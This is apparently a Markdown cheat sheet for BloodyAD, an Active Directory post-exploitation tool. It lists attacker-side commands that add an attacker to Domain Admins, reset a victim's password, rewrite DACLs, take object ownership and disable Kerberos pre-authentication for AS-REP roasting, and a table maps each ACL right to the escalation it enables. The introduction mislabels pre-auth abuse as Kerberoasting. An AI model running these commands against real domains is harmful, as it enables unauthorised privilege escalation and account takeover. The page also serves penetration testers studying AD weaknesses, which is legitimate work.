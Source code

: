 **BloodyAD** is a post-exploitation tool designed to manipulate Active Directory permissions and perform privilege escalation by abusing ACLs (Access Control Lists). It allows attackers to interact with the domain via LDAP and modify key attributes in user, group, or domain objects.

The tool supports:

- `GenericAll`
- `GenericWrite`
- `WriteDACL`
- `WriteOwner`
- `AddSelf`
- `AllExtendedRights` (e.g., reset password)
- `PreAuthNotRequired` abuse (Kerberoasting)


---

## Installation

```bash
sudo apt install bloodyad
```


---

## Basic Syntax

```bash
python bloodyAD.py --host <DC_IP> -u <user> -p <password> -d <domain> [command] [options]
```

If using NTLM hash:

```bash
-H <LM:NTLM>
```


---

## Abuse Scenarios

#### Add User to a Group

Used when the attacker has:

- `GenericAll`
- `GenericWrite`
- `AddSelf` on a group

Adds a user (usually attacker) to a privileged group such as **Domain Admins**.

```bash
python bloodyAD.py --host 192.168.1.10 -u attacker -p pass -d domain.local add-user-to-group -a attacker -t "Domain Admins"
```

## Reset Another User’s Password

Used when the attacker has:

- ForceChangePassword (from AllExtendedRights)
- GenericAll

Allows password reset without knowing the current password.

```bash
python bloodyAD.py --host 192.168.1.10 -u attacker -p pass -d domain.local reset-password -a victim_user -P 'NewPass123!'
```

#### Abuse WriteDACL (Access Control List)

Used when the attacker has:

- `WriteDACL` on a user or group

Allows editing the object’s ACL to assign full control (`GenericAll`) to the attacker.
```bash
python bloodyAD.py --host 192.168.1.10 -u attacker -p pass -d domain.local write-dacl -a victim_user -t attacker -r GenericAll
```

#### Abuse WriteOwner (Object Ownership)

Used when the attacker has:

- `WriteOwner` on an object

Lets the attacker take ownership of the object, then modify its ACL.

```bash
python bloodyAD.py --host 192.168.1.10 -u attacker -p pass -d domain.local write-owner -a victim_user -t attacker
```


#### Set PreAuthNotRequired (AS-REP Roasting)

Used when the attacker has:

- `GenericWrite` or `GenericAll`

Disables Kerberos pre-auth for a user, enabling AS-REP roasting attacks to retrieve crackable TGT hashes.

```bash
python bloodyAD.py --host 192.168.1.10 -u attacker -p pass -d domain.local set-preauth -a target_user
```


---


## Summary of Rights and What They Enable

|Right|Description|Enables|
|---|---|---|
|`GenericAll`|Full control of object|Reset passwords, modify groups, change DACLs|
|`GenericWrite`|Write to any writable attribute|Set SPNs, change passwords, add `PreAuthNotRequired`|
|`WriteDACL`|Modify object's ACL|Grant privileges to attacker|
|`WriteOwner`|Change object ownership|Take control and modify DACL later|
|`AddSelf`|Add yourself to group|Escalate to privileged group|
|`ForceChangePassword`|Reset password w/o old one|Immediate account access|
|`PreAuthNotRequired`|Disable Kerberos pre-auth|AS-REP roasting|
